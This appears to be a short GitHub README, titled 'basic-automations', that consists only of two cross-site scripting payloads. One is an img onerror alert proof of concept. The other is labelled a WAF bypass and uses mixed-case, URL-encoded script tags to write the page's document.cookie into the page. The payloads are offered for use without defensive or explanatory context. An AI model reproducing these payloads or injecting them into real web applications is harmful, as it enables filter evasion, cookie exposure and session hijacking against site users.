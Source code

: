 # basic-automations
For Personal Use Only.

Payload:

```
"><img%20src=x%20onerror="alert(%27POC%20By%20Xalgord%27)"
```

WAF Bypass Payload:

```
<%2FScriPt><sCripT+class%3DXalgord>document.write(document.cookie);<%2FsCriPt>
```
